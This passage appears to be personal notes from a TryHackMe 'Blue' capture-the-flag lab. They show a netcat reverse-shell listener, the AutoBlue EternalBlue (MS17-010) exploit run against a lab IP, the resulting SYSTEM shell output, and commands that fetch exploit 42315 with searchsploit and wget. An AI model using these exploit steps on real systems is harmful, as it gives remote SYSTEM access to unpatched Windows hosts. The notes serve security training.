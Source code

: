 > Or just use `./shell_prep.sh`

Listen for revshell

```bash
rlwrap -r -f . nc -nlvp 1111
```

Exploit 

> [!NOTE] Note
> **Try multiple times for exploit to work!** If it still fail, check this [writeup](https://rizemon.github.io/posts/blue-htb/)
> 
> The writeup requires python 2 - [Encountered Issues > Make python2 working](app://obsidian.md/Encountered%20Issues#Make%20python2%20working)

```bash
┌──(venv)─(kali㉿kali)-[~/thm/blue/AutoBlue-MS17-010/shellcode]
└─$ cd ..

┌──(venv)─(kali㉿kali)-[~/thm/blue/AutoBlue-MS17-010]
└─$ python eternalblue_exploit7.py 10.10.104.105 ./shellcode/shell.bin
shellcode size: 1232
numGroomConn: 13
Target OS: Windows 7 Professional 7601 Service Pack 1
SMB1 session setup allocate nonpaged pool success
SMB1 session setup allocate nonpaged pool success
good response status: INVALID_PARAMETER
done
```

```bash
┌──(kali㉿kali)-[~/thm/blue]
└─$ rlwrap -r -f . nc -nlvp 1111
listening on [any] 1111 ...
connect to [10.11.19.145] from (UNKNOWN) [10.10.29.178] 49170
Microsoft Windows [Version 6.1.7601]
Copyright (c) 2009 Microsoft Corporation.  All rights reserved.

C:\Windows\system32>whoami
whoami
nt authority\system
```

###### Failed Attempts

Without using **metasploit**. choose the exploit with highest serial number which will be latest

```bash
# Clone exploit
searchsploit -m 42315

# Check the code, its default username and password is NULL
vi 42315.py

# Create virtual environment for the exploit
pipenv shell

# Its documents tells us to download mysmb.py
wget https://gitlab.com/exploit-database/exploitdb-bin-sploits/-/raw/main/bin-sploits/42315.py -O mysmb.py
```
